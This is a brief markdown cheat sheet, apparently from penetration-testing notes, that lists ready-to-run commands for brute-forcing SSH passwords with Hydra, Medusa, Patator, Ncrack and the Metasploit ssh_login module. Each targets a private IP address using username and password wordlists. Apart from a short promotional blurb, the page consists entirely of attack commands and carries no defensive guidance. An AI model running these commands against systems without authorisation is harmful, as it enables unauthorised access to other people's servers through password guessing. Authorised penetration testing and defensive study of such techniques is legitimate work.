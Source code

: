 ```yaml
---
description: >-
  Explore our in-depth article on SSH Penetration Testing Bruteforce, a critical
  tool for uncovering vulnerabilities in your security system. Learn how to
  protect your network today.
---
```


# Bruteforce

### Hydra Brute Force SSH Password

```
hydra -L User.txt -P Passwords.txt 192.168.1.10 ssh
```



### Medusa Brute Force SSH Password

```
medusa -h 192.168.0.8 -U user.txt -P password.txt -M ssh
```



### Patator Brute Force SSH Password

```
patator ssh_login host=192.168.0.8 user=FILE0 0=user.txt password=FILE1 1=password.txt
```



### Brute Force SSH Password using Ncrack

```
ncrack -U user.txt -P password.txt 192.168.0.8:22
```



### Brute Force SSH Password using Metasploit

```
use auxiliary/scanner/ssh/ssh_login
set rhosts 192.168.0.8
set user_file user.txt
set pass_file password.txt
run
```
